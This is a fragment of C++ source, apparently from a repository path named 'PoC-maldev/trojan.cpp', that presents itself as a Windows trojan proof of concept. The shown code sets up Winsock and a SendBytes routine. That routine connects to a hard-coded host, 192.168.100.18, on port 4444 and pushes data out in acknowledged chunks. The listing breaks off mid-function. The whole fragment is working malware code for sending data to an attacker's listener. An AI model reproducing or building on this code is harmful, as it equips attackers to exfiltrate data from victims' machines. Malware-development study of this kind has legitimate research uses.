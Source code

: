 - Script PoC-maldev/trojan.cpp
```cpp
// C++ headers
#include <winsock2.h> // Socket header
#include <windows.h> // Win API header
#include <ws2tcpip.h> // TCP/IP header
#include <tlhelp32.h> // Tool Help Library header

// C headers
#include <stdio.h> // Standard Input/Output header
#include <stdlib.h> // Standard library header
#include <string.h> // Standard string header

// Defined header
#include "resources.h"

#pragma comment(lib, "user32.lib")
#pragma comment(lib, "Advapi32.lib")
#pragma comment(lib, "Shell32.lib")
#pragma comment(lib, "Ws2_32.lib")

#define DEFAULT_BUFLEN 1024

typedef SSIZE_T ssize_t;

// https://cplusplus.com/forum/general/266899/
void SendBytes(char * bytes, size_t data_length) {

  WSADATA wsaver;
  WSAStartup(MAKEWORD(2, 2), &wsaver);
  SOCKET tcpsock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
  sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_addr.s_addr = inet_addr("192.168.100.18");
	addr.sin_port = htons(4444);

	char response[DEFAULT_BUFLEN] = "";
	ssize_t bytes_sent;
	size_t total_bytes_sent;

	if (connect(tcpsock, (SOCKADDR *) &addr, sizeof(addr)) == SOCKET_ERROR) {
		closesocket(tcpsock);
		WSACleanup();
		exit(0);
	}
	else {
		while (true) {
			if (data_length >= DEFAULT_BUFLEN) {
				bytes_sent = send(tcpsock, bytes, DEFAULT_BUFLEN, 0);
			}
			else {
				bytes_sent = send(tcpsock, bytes, data_length, 0);
				break;
			}

			recv(tcpsock, response, DEFAULT_BUFLEN, 0);

			if (strcmp(response, "OK") == 0) {
				//printf("\nResponse: %s\n", response);
				bytes += bytes_sent;
				data_length -= bytes_sent;
				total_bytes_sent += bytes_sent;
				//printf("Bytes left = %d , Total bytes sent = %d\n", data_length, total_bytes_sent);
```